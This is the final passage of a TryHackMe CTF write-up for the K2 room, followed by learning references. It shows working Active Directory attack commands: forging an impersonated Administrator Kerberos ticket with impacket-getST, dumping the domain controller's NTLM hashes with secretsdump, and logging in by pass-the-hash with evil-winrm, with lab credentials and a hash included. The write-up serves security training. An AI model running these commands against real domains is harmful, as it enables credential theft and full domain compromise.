 3. Obtain a Kerberos ticket while impersonating **Administrator**.

```
impacket-getST -spn 'cifs/K2RootDC.k2.thm' -impersonate Administrator -dc-ip 10.10.124.173 k2.thm/KSCORPIO$:'LETSgetr00t!'
```

![RBCD step 3](/images/THM-K2/RBCD3.png)

4. For Impacket to use our ticket we set an environment variable with our cache file name.

```
export KRB5CCNAME=Administrator@cifs_K2RootDC.k2.thm@K2.THM.ccache
```

5. Dump the NTLM hashes from the DC.

```
impacket-secretsdump 'k2.thm/Administrator@K2RootDC.k2.thm' -k -no-pass -dc-ip 10.10.124.173 -target-ip 10.10.124.173 -just-dc-ntlm
```

![RBCD step 4](/images/THM-K2/RBCD4.png)

With the administrator hash we can login with evil-winrm and read the root flag.

```
evil-winrm -i k2.thm -u Administrator -H "15ecc755a43d2e7c8001215609d94b90"
```

![K2 -Summit root flag](/images/THM-K2/root_flag_K2S.png)


This room was one of the best I have done on TryHackMe so far, I enjoyed its chain-like nature and how the machines were building on top of each other. I will leave some references below if anyone is interested, thank you for taking the time to read this **long** write up!

## References

* [Tib3rius SQLi cheatsheet](https://tib3rius.com/sqli.html)

* TryHackMe have three **free rooms** that will give you a good foundation for SQLi:
	- [SQL Injection](https://tryhackme.com/r/room/sqlinjectionlm)
	- [Advanced SQL Injection](https://tryhackme.com/r/room/advancedsqlinjection)
	- [SQL Injection Lab](https://tryhackme.com/r/room/sqlilab)

* Install Bloodhound with Docker Compose (simpler setup) available [here](https://support.bloodhoundenterprise.io/hc/en-us/articles/17468450058267-Install-BloodHound-Community-Edition-with-Docker-Compose#h_01H9MMVW3J42013Q0P68WSRK2R).

* Abusing membership to `Backup Operators`,  access and copy files from restricted directories -> [here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators).

* Learn what CIFS is (used at step 3 of RBCD) -> [What is CIFS?](https://www.upguard.com/blog/cifs)
